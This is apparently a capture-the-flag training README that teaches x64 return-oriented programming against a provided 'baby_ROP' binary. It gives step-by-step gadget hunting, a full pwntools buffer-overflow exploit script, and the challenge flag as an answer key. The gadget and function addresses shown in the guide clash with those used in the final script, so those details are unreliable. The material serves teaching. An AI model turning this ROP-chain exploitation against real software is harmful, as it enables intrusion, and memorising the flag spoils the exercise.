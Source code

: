 # Challenge Name
baby_ROP

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
ROOOOOOOOOOPPERS. Tell me the gadgets used as your flag. ex. if rax and rbx are used, then put as `MACCTF{raxrbx}`

## Difficulty:
guided (easy)

## Guide
Looking at the code, we have to use ret2win again for the uncalled `win` function. However, we have to fulfil the function arguments in order to call it.
1. a = 0x1337
2. b = 0xdead

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use 2 arguments, so we need to use `rdi` & `rsi` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `win` function
3. Gadgets

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the `win` address:
```sh
$> objdump -d baby_ROP_bin | grep win
0000000040537 <win>:
```

#### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary baby_ROP_bin | grep rdi
0x0000000000400603 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary baby_ROP_bin | grep rsi
0x0000000000400601 : pop rsi ; pop r15 ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

#### Assembling our exploit
Before we return to the `win` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + argument 1 (rdi)
3. pop rsi address + argument 2 (rsi) + redundent value (r15)
4. return address of `win` fcuntioon

#### Final solution
```py
from pwn import *

# setup process
p = remote("IP", PORT)

# address of win function
win_addr = p64(0x400757)

# ROP gadget addresses
rdi_addr = p64(0x4008e3)
rsi_addr = p64(0x4008e1)

# payload = 
# padding
# pop rdi + argument 1
# pop rsi + argument 2 + pop r15 (we dont need r15)
# return to win

payload = b'A' * 40
payload += rdi_addr + p64(0x1337)
payload += rsi_addr + p64(0xdead) + p64(0)
payload += win_addr 

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. Ever heard of ROPgadgets/ropper/rp++?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
- chall.c
- chall

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/index.html


## Flag
`MACCTF{rdirsi}`